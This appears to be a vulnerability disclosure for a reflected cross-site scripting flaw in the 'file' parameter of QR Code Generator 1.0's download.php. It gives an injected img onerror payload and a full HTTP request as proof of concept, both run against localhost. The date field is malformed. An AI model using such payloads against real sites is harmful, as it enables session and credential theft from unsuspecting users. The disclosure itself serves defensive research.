 # QR_Code_Generator-Reflected_Cross_Site_Scripting
+ **Exploit Title:** QR_Code_Generator-Reflected_Cross_Site_Scripting
+ **Date:** 2023-27-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/qr-code-generator-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/QR_CODE_GENERATOR_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-

## References: 

## Description:
QR Code Generator 1.0 allows Reflected Cross-site Scripting via parameter 'file' in "/qr-codegen/download.php?file=author.png". QR Code Generator is vulnerable to a cross-site scripting vulnerability because it fails to sufficiently sanitize user-supplied data.
An attacker may leverage this issue to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. This may allow the attacker to steal cookie-based authentication credentials and launch other attacks.

## Proof of Concept:
+ Copy the link address of "Download QR Code": "http://localhost/qr-codegen/download.php?file=author.png"
+ And navigate to `http://localhost/qr-codegen/download.php?file=author.png"><iMg src=N onerror=alert(document.domain)>`
+ Use this payload: `"><iMg src=N onerror=alert(document.domain)>`
+ The XSS will be triggered.
+ Alerts will pop-up.
+ Example request for 'file' parameter:
```
GET /qr-codegen/download.php?file=author.png"><iMg src=N onerror=alert(document.domain)> HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Referer: http://localhost/qr-codegen/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
```

![1](https://github.com/h4md153v63n/CVEs/assets/5091265/6f94b7e5-6ca1-4818-9a32-9bd990afa2ef)
<br>
![1-2](https://github.com/h4md153v63n/CVEs/assets/5091265/c9a8d093-c58a-4e6c-a848-92cfc4672ca8)
